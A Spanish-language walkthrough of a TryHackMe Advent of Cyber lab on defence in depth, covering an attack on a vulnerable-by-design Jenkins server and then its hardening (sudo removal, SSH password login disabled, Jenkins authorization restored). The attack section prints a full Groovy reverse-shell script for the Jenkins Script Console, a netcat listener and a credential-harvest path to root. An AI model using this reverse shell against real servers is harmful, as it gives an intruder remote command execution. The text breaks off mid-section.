# Advent of Cyber Día 12: Defensa en profundidad

## Introducción

Dados todos los ataques y problemas que tuvieron en los último tiempos, uno de los protagonistas toma como objetivo la fortificación de las defensas del sistema, "*-from the physical servers in the basement to the cloud floating above us. Every byte, every bit.*".

En día de hoy se va a enfocar en estrategias de defensa en profundidad, cómo aplicarlas y qué logran. Se va a utilizar una VM en conjunto con la AttackBox.

## Objetivos de aprendizaje

- Aprender sobre *defense in depth*.
- Aprender lo básico sobre *endpoint hardening*.
- Aprender sobre la metodología *Boot2Root*.

## Info sobre el entorno del día

La máquina con la que se va a trabajar es una Ubuntu *vulnerable-by-design*. La misma corre un servicio Jenkins configurado para que pueda utilizarse fácilmente, permitiéndole flexibilidad a los usuarios a costa de seguridad.  
Esta máquina es la que utilizaría el *server administrator*, a diferencia de la attack box, que es la que usaremos para probar las defensas.

THM nos provee también las credenciales para ingresar a la cuenta del administrador en la attack box vía SSH:

```shell
ssh admin@MACHINE_IP
```

| Username | Password               |
| :------- | :--------------------- |
| admin    | SuperStrongPassword123 |

## Guía del ciclo de ataque

Como se explicó previamente, el servidor es vulnerable por diseño. El mismo contiene malas configuraciones y se lo implementó con prácticas de seguridad pobres o directamente inexistentes. En el siguiente apartado se verá una de las muchas formas posibles de obtener privilegios elevados en el servidor.

Omitiendo la etapa de enumeración, podemos acceder a Jenkins mediante el navegador y su puerto por defecto: `http://MACHINE_IP:8080`. Veríamos algo así:



### Obteniendo el web shell

Dentro de la web podemos acceder al ciclo de trabajo de Jenkins, podemos explorar sus funcionalidades pero lo que nos interesa en este caso es obtener una forma de **ejecutar scripts arbitrarios** para tareas de administración, troubleshooting, diagnósticos etc.  
Para esto vamos a **Manage Jenkins** y a **Script Console**.

Esta consola acepta código Groovy, un lenguaje de programación para la JVM. Mediante la misma establecemos una reverse shell, lo haremos haciendo uso del siguiente script que nos provee THM:

```java
String host="attacking machine IP here";
int port=6996;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Pegamos el script en la consola (no olvidarse de cambiar el valor del host por la IP de la attack box). En una nueva terminal levantamos un listener netcat mediante el comando `nc -nvlp 6996`.

Con el script de la reverse shell y el listener listos procedemos a ejecutar. Deberíamos ver la conexión en la terminal atacante, podemos probarla mandando comandos básicos como `whoami`. Una conexión exitosa se ve mas o menos así:

```bash
root@AttackBox:~# nc -nvlp 6996
Listening on [0.0.0.0] (family 0, port 6996)
Connection from MACHINE_IP [random port] received!
```

### Obteniendo el usuario y root `tracy`

Ya con la web shell y el usuario de Jenkins podemos explorar los contenidos del servidor. Nos interesan elementos que podemos utilizar para mejorar nuestro shell y elevar nuestros privilegios.

Luego de examinar los directorios usuales, en `/opt/scripts` encontramos un script llamado `backup.sh`. Este script sirve para realizar un backup de los componentes esenciales de Jenkins y enviarlos via *scp* a `home/tracy/backups`. Analizando el script nos encontramos con las credenciales del usuario `tracy`.

El uso del comando scp es una pista de que es posible utilizar SSH en el servidor. Intentamos hacerlo mediante las credenciales obtenidas:

```bash
ssh tracy@MACHINE_IP
```

Para ver que comandos podemos utilizar con este usuario hacemos lo siguiente:

```bash
tracy@jenkins:~$ sudo -l
[sudo] password for tracy:
--- Redacted ---
User tracy may run the following commands on jenkins:
    (ALL : ALL) ALL
```

La sintaxis `(ALL : ALL) ALL` indica que somos capaces de ejecutar cualquier comando mediante `sudo`. Ya somos capaces de ser root mediante `sudo su`.

## Defensa en profundidad

Desde el punto de vista del atacante, fuimos capaces de obtener acceso root de una manera bastante sencilla. Esto es una noticia terrible para el equipo de defensa, ya que su trabajo es básicamente hacer que el atacante sea incapaz de lograr esto.

En los siguientes apartados vamos a ver varias estrategias para que la defensa del servidor sea más robusta. Es importante tener en cuenta que el foco no debe estar en, cito: *"never getting compromised"*, sino en *"making the bad actors don't succeed"*. Esto se logra mediante una defensa por capas, si los atacantes logran pasar una capa de defensa, tienen otra que les dificulte su objetivo y potencialmente los haga replantearse si vale la pena continuar o buscar una victima más sencilla.

### Quitando a `tracy` de los *sudoers*

Dado que mediante `tracy` fuimos capaces de elevar nuestros privilegios, una buena idea sería aplicar el principio del privilegio mínimo o *least privilege*. Tal y como está ahora el sistema, el usuario `tracy` tiene los mismos permisos que el administrador. Esto le permite tener cierta flexibilidad, sin embargo hace que este usuario pueda potencialmente hacer un mal uso de estos privilegios, ya sea mediante un actor externo que logro el acceso o el usuario real.

Para quitar a `tracy` del grupo sudo vamos a usar el comando `sudo deluser tracy sudo`. Para confirmar que la operación funcionó usamos `sudo -l -U tracy`. Los output se verían así:

```bash
admin@jenkins:~$ sudo deluser tracy sudo
Removing user `tracy' from group `sudo' ...
Done.
admin@jenkins:~$ sudo -l -U tracy
User tracy is not allowed to run sudo on jenkins.
```

Este cambio obliga al atacante a continuar con el usuario `tracy`, ya no tiene acceso a root. Ahora le quedan tres potenciales opciones para continuar:

1. Continuar con la enumeración del servidor para encontrar una posible ruta a root mediante `tracy`.
2. Buscar una forma de moverse lateralmente a otro usuario que pueda tener acceso a root.
3. Rendirse y buscar otra víctima.

### Endureciendo el SSH

Si buen el camino a root ahora es más complicado para el atacante, hay muchos más cambios que podemos implementar para mejorar aún mas la seguridad.

Recordemos que el atacante pudo utilizar SSH para moverse lateralmente desde un usuario de pocos privilegios hasta `tracy`. Podríamos deshabilitar el login SSH basado en contraseña.

Dentro de la shell de administrador nos movemos a `etc/ssh/sshd_config` y lo editamos (importante usar `sudo`). Buscamos la línea que dice `#PasswordAuthentication yes` y la cambiamos por `PasswordAuthentication no`. Luego cambiamos `Include /etc/ssh/sshd_config.d/*.conf` por `#Include /etc/ssh/sshd_config.d/*.conf` (en otras palabras, lo comentamos). Guardamos y ejecutamos el comando `sudo systemctl restart ssh`.

Es importante tener en cuenta que este procedimiento asume que los usuarios tienen una forma alternativa de ingresar al sistema. Generalmente este proceso viene acompañado de una configuración de login de SSH *passwordless*, sin embargo para este caso puntual no va a ser necesario.

### Endureciendo las contraseñas

Recordemos que el atacante pudo acceder a las credenciales de `tracy` ya que estas estaban presentes en un archivo dentro del sistema. Una buena práctica de seguridad es asegurarnos que los usuarios con privilegios tengan buenas contraseñas y sigan buenas prácticas de seguridad, casos en los que esto no se cumpla son:

1. El usuario tiene una contraseña débil y es susceptible a un ataque de fuerza bruta.
2. El usuario tiene su contraseña guardada en un archivo y es susceptible a que cualquier persona con acceso la lea.

Es importante no solamente cambiar las contraseñas por unas más difíciles, sino también aplicar las medidas de cuidado apropiadas, THM llama a esto *dealing with secrets*.

### Promoviendo Zero Trust

Por último, recordemos que el atacante pudo acceder a Jenkins ya que este tiene una política de *full trust within the environment*. A continuación vamos a cambiar esta política por una de 0 confianza.

En lugar de que la plataforma de Jenkins este abierta a todos dentro del entorno de trabajo, vamos a hacer que solo los usuarios con los permisos adecuados puedan acceder. Para esto, en la terminal de administrador, vamos al directorio base de Jenkins, con el comando `cd /var/lib/jenkins`.

Una vez en el directorio encontramos que hay dos versiones del archivo de configuración de Jenkins: `config.xml` y `config.xml.bak`. Por suerte el administrador dejo un backup de la configuración antes de aplicar los cambios presentes actualmente. Una buena idea sería revertir los cambios en este archivo para devolverlo a su estado original, THM nos indica que podemos lograr esto eliminando los comentarios en el archivo XML.

Con nuestro editor favorito abrimos `config.xml.bak` y buscamos el siguiente bloque:

```xml
--- Redacted ---
  <!--authorizationStrategy class="hudson.security.FullControlOnceLoggedInAuthorizationStrategy">   
    <denyAnonymousReadAccess>true</denyAnonymousReadAccess>
  </authorizationStrategy-->
  <!--securityRealm class="hudson.security.HudsonPrivateSecurityRealm">  
    <disableSignup>true</disableSignup>
    <enableCaptcha>false</enableCaptcha>
  </securityRealm-->
--- Redacted ---
```

Quitamos los comentarios y procedemos a eliminar el archivo actual de configuración (`rm config.xml`) y renombrar el que modificamos (`cp config.xml.bak config.xml`). Reiniciamos el servicio mediante `sudo systemctl restart jenkins` y ya podemos probar que ahora Jenkins nos pide credenciales.

## Resolución

### Log via SSH



### Obteniendo shell de Jenkins



#### Generando reverse shell

Levantamos el netcat listener:



Ejecutamos lo que THM nos provee dentro del shell de Jenkins:



Y confirmamos si la conexión fué exitosa:



### Obteniendo las credenciales y accediendo a root

Revisamos los directorios con nuestra reverse shell:



Analizamos `backup.sh`:



Usamos las credenciales de `tracy`:



Elevamos nuestros privilegios:



Examinamos root en busca de la flag:



### Quitamos a `tracy` de los sudoers

En nuestra shell `admin@jenkins` ejecutamos:



Intentamos volver a ingresar con `tracy` para ver el error al intentar hacer `sudo -l`:



### Mejorando la seguridad del SSH

En nuestra shell `root@jenkins` modificamos el archivo `/etc/ssh/sshd_config` (ahí está la flag):

